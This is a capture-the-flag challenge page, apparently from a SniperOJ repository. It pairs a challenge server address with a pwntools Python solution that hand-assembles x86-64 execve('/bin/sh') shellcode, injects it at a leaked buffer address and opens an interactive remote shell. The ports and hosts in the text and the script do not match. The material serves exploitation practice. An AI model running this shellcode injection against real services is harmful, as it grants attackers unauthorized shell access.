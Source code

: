 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20006
 
#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("www.sniperoj.cn", 30004)

# read buffer addr
Io.readline()
addr_data = Io.readline()
addr = int(addr_data.split("[")[1].split("]")[0][2:], 16)
Io.readline()

# machine code
xor_esi_esi = "\x31\xf6"
mul_esi = "\xf7\xe6"
mov_rdi_bin_sh_addr = "\x48\xbf" + p64(addr)
mov_al_59 = "\xb0\x3b"
syscall = "\x0f\x05"
jmp_short_8 = "\xeb\x08"

# build payload
bin_sh = "/bin/sh\x00"
shellcode_addr = p64(addr + len(bin_sh))
payload = bin_sh + xor_esi_esi + mul_esi + mov_rdi_bin_sh_addr + jmp_short_8 + shellcode_addr + mov_al_59 + syscall

print "[+] Payload Length : [%d]" % (len(payload))

# send payload
Io.send(payload)

# get shell
Io.interactive()
```

#### Writeups
 * TODO

